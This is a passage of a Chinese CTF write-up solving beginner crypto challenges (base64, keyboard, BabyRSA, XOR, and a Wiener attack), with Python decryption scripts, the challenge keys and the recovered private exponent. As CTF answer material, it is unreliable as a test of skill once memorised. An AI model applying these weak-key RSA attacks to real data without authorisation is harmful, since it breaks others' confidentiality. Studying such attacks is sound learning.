直接base64解码即可；

### keyboard

直接看键盘即可

### BabyRSA

这题也是十分基础，就是给出`(e,n)`还有`cipher`的十六进制，全部转化为10进制以后，素因数分解n（此处使用分解工具即可）：



找到`p,q`即可求出φ(n);

**攻击脚本：**

```
 import gmpy2
import math
e="0x10001"
n="0x291733BAB061EF9C599139CB3E40A5C762B6F448FFFFFFFFFFFFFF"
m="0x237200C0F72B97DB55BA37C7AACBB61A26A0CB47D294726259C4DF"
ee=int(e,16)
nn=int(n,16)
mm=int(m,16)
print ee,nn
p=1578173871764844869716052171
q=10710927547195113973175047066215146269
ol=(p-1)*(q-1)
dd=gmpy2.invert(ee,ol)
plain=pow(mm,dd,nn)
ans='{:x}'.format(plain).decode('hex')
print ans 
```

得出flag：

[](https://imgchr.com/i/kPPFL4)

### 异性相吸

这题给的hint很实在，直接告诉你怎么做了：

1.  xor
2.  hex2binary
3.  len(bin(miwen))==len(bin(mingwen))

大致就是明文密文的二进制长度相等，正好可以二进制异或，异或后直接转为16进制解码即可

**解密脚本**：

```
 filep=open("cipher.txt","r")
filec=open("plain.txt","r")
plain=''.join(filep.readlines())
cipher=''.join(filec.readlines())

str_p=""
str_c=""
ans=""
answer=""
for i in range(32):
	str_p+='{:08b}'.format(ord(plain[i]))
	str_c+='{:08b}'.format(ord(cipher[i]))
for j in range(256):
	a=int(str_p[j])
	b=int(str_c[j])
	ans+=str(a^b)
for x in range(0,256,4):
	answer+=hex(int(ans[x:x+4],2))[2:]
print answer.decode('hex') 
```

得到flag：



### Wiener Wiener Chicken Dinner

这题可算害苦我了，做了2个小时…思路没有…Google了一下wiener发现是一种RSA的攻击手段，低解密指数攻击，大概的特点就是e特别特别大…

题目给出脚本：

```
 from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5 as Cipher_pkcs1_v1_5
import base64

flag=raw_input('flag:')
key=RSA.construct((1063045321283844468344531168992778520651192162100948533991539097447031440090068191835838938460807260866872379834796862916118785271062209281267667069640000501698142693389209275376843382863579650119977059768375028586326490055087394631528241983631462471709913758728591459476799115050977493979613545056736162868049L, 837165022918376318972691589160491375229372195625940137121740685432530132860541010174727630660292946071507342455170833392895060048564125597915757582027572284342507277083636059558106672685400173531425920294781499112027917632497954958437660357575400222692979844873372105801998210845285775146263117399191185379347L))
cipher = Cipher_pkcs1_v1_5.new(key)
cipher_text = base64.b64encode(cipher.encrypt(flag))
print cipher_text 
```

不熟悉python的crypto模块和RSA模块的使用，所以直接Google了一下，发现`RSA.construct()`用于初始化密钥，脚本的意思就是用户自己输入一个flag，用脚本里的n和e构造的公钥加密以后base64一下输出即可；

最后注释给出了cipher_text应该就是要找的flag加密以后base64得到的，所以要对其进行base64解码以后才可以解密；

Crypto模块的RSA加密解密流程：

```
 random_generator = Random.new().read

rsa = RSA.generate(1024, random_generator)

private_pem = rsa.exportKey()
public_pem = rsa.publickey().exportKey()
message = "chenqi"

rsakey = RSA.importKey(public_pem)
cipher = Cipher_pkcs1_v1_5.new(rsakey)
cipher_text = base64.b64encode(cipher.encrypt(message))
print cipher_text

rsakey = RSA.importKey(private_pem)
cipher = Cipher_pkcs1_v1_5.new(rsakey)
text = cipher.decrypt(base64.b64decode(cipher_text), random_generator)
print text 
```

题目的关键点是如何得到私钥d，题目提示是Wiener攻击，那就直接找到github的写好的py脚本直接用就好了，解出d：

[](https://imgchr.com/i/kPZrvt)

d找到了以后私钥就知道了，直接在给出的脚本上修改即可，在`construct`方法最后添加私钥即可生成RSA算法的解密私钥，直接按照流程decode就好了：

**解密脚本：**

```
 from Crypto import Random
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5 as Cipher_pkcs1_v1_5
import base64
random_generator=Random.new().read

key=RSA.construct((1063045321283844468344531168992778520651192162100948533991539097447031440090068191835838938460807260866872379834796862916118785271062209281267667069640000501698142693389209275376843382863579650119977059768375028586326490055087394631528241983631462471709913758728591459476799115050977493979613545056736162868049L, 837165022918376318972691589160491375229372195625940137121740685432530132860541010174727630660292946071507342455170833392895060048564125597915757582027572284342507277083636059558106672685400173531425920294781499112027917632497954958437660357575400222692979844873372105801998210845285775146263117399191185379347L,57899763801722261062891290503559835904571946557258761154422546104824094670843))
cipher = Cipher_pkcs1_v1_5.new(key)

cipher_text = 'AGgt1h6dudnkeoCr7SFclkYYsYa65KZ8V29bbgbf+BDyjnyx5stCYjcyktat73aHs2EOaMgwGUwj3HwPTvT+T5LHIxM4uTnAgWOui4dnb7vF7QizN0ShY2O1h26CgLnf5I0vQWbY7WCC7kA/orNW7F5yxZiKRAawacS2M5ghP4/Q'
text = cipher.decrypt(base64.b64decode(cipher_text), random_generator)
print text 
```

运行得到flag：

[](https://imgchr.com/i/kPeFaD)

参考链接：[py的crypto模块如何进行RSA加密解密](https://www.cnblogs.com/chenny7/p/7693334.html)，[Wiener-tools](https://github.com/pablocelayes/rsa-wiener-attack)，[RSA攻击总结干货](https://www.anquanke.com/post/id/84632)